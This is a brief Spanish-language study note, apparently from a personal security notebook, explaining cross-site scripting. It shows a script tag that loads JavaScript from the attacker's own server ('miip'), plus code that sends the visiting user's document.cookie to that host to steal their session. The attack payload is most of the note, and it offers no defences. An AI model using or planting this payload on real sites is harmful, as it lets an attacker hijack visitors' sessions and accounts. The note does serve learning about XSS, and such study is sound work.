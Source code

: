 ------
- tags: #web #xss
- -----------
# ¿Qué es?
> Los ataques XSS permiten inyectar código HTML, para así crear una etiqueta \<script\> en la que posteriormente inyectar código javascript.

> Lo que buscaremos será:
> 1.- Conseguir una cookie de session
> 2.- Que un usuario visitando la página realice una petición a otra página



## ¿Cómo se ejecuta?
Suponiendo que inyectamos la siguiente linea:
	\<script src="http://miip/script.js">\</script\>

Y en nuestro equipo montamos un servidor web con el archivo script.js que contenga lo siguiente:
```Javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://miip/?cookie=' + document.cookie);
request.send();
```

Recibiremos la cookie del usuario que visite la página web



